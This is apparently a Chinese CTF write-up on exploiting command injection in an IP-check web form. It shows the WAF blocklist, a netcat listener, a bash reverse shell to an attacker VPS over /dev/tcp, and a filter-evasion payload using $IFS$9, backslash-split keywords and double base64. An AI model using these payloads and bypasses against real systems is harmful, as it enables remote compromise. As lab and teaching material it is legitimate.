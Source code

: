 ![[Pasted image 20230125095243.png|500]]

![[Pasted image 20230125095259.png|500]]

尝试输入正常ip

```
127.0.0.1
```

```
Success
```

输入奇怪的ip

```
abclol
```

```
Failed
```

经过测试WAF把这些东西ban掉了

```
;
flag
cat
tac
<space>
+
echo
sh
<
>
```

似乎只有`Success`和`Failed`的回显，由命令的`exit_code`决定，一开始想通过类似SQL布尔盲注的形式跑脚本，然后发现自己不会写`bash`字符串截取和比较qaq

于是走了反弹`shell`

vps上监听`2333`端口

```shell
nc -lvvp 2333
```

总的来说要在靶机上执行这个

```shell
bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"
```

空格可以通过`$IFS$9`绕过，对单词的过滤也可以通过反斜杠绕过

对`<`、`>`的过滤通过`base64`编码绕过

```shell
echo 'bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"' | base64
```

![[Pasted image 20230125101455.png|1000]]

编码结果里面出现了加号，依然绕不过，因而尝试二次编码

```shell
echo 'bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"' | base64 | base64
```

![[Pasted image 20230125101701.png|1000]]

这下没有了，但是非常脸黑地编码结果中刚好有被过滤的单词，懒得一个一个找直接一锅端了

```
a&ec\ho$IFS$9\W\W\1\G\e\m...\Q\z\h\5\T\X\p\N\e\k\l\E\Q\S\t\K\a\k\V\p\Q\2\c\9\P\Q\o\=|base64$IFS$9-d|base64$IFS$9-d|bas\h
```

![[Pasted image 20230125102444.png|1000]]

#Web #RCE #反弹shell #绕过 #shell 